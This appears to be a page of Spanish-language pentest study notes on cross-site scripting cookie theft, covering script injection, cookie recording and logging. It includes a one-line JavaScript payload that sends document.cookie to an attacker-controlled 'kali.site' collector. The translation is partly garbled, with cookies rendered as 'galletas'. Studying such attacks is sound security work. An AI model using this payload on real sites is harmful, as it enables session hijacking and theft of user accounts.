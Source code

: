 * Aka UXSS
* no aprovecha las fallas contra las aplicaciones web, sino el navegador, sus extensiones o sus plugins.

## XSS Attacks

### Cookie Gathering

* Las principales técnicas para realizar un seguimiento de la sesión de usuario se utilizan cookies HTTP.
* A veces estas cookies contienen información como nombre de usuario, contraseña y otra información relacionada con la aplicación.

3 steps:

```php
- Script Injection
- Cookie Recording
- Logging
```

### Script Injection

Inyectar la carga útil maliciosa que enviará las galletas robadas a nuestro CGI controlado Acceso a las Cookies:

```php
var accessibleCookies = document.cookie;
```

AccesibleCookies es una cadena que contiene una lista de galletas separadas por pares de punto y coma en pares de key=value. El resultado contiene cookies sin el atributo HTTPOnly. En las conexiones HTTP, solo las cookies sin el conjunto de atributos SECURE están contenidas en el resultado.

Robar galletas Para robar cookies, tenemos que enviar el contenido de document.cookie a algo que podamos controlar, utilizando un sencillo script como:

```php
new Image().src="http://kali.site/C.php?cc="+escape(document.cookie);
```

![[Pasted image 20240311152649.png]]

![[Pasted image 20240311152658.png]]

Cookie Recording & Logging:

Una vez que el lado del cliente ha realizado la solicitud a nuestro CGI controlado, es hora de manejar la solicitud y administrar el parámetro enviado.

Aquí, definimos qué información recopilar, cómo almacenarla y la acción a realizar una vez que se obtenga esta valiosa información.

Supongamos que tenemos nuestro script PHP C.php escuchando en nuestra máquina kali

Un ejemplo básico es almacenar el contenido de GET\['cc'] en un archivo.
